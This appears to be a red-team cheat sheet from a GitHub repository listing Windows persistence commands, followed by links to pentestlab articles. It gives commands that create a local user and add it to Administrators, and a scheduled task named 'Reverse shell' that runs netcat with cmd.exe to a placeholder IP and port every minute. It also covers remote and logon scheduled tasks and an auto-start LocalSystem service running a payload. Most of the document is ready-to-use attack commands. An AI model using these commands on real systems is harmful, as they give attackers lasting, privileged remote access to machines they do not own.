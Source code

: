## Create User:  
**Create user (CMD)**: net user username password /add  
**Add user to group (CMD)**: net localgroup Administrators username /add  
**Add user to group (Powershell)**: Add-LocalGroupMember -Group Administrators -Member username  

## Scheduled Tasks:  
**Local scheduled tast**: schtasks /create /sc minute /mo 1 /tn "Reverse shell" /tr 'c:\Users\User\Downloads/nc.exe <IP> <PORT> -e cmd.exe'  
**Create remote scheduled task**: schtasks /create /s "PC-NAME" /tn "My App" /tr "PATH" /sc minute /mo 1 /u Domain\User /p password  
**Logon Scripts**: schtasks /create /sc onlogon /tn "task-name" /tr "File or App PATH" /RU  "username"  

## Create Service:
sc create (service name) binpath= "cmd.exe /k C:\temp\pentestlab.exe" start="auto" obj="LocalSystem"  
sc start (service name)  



## Aditional Informaion:  
**Windows Tasks**:  
1. https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/  
2. https://dmfrsecurity.com/2021/09/07/scheduled-task-persistence/  
  
**Windows Registry**:  
1. https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/  
  
**Services**:
1. https://pentestlab.blog/2019/10/07/persistence-new-service/  
2. https://dmcxblue.gitbook.io/red-team-notes/persistence/new-service  
  
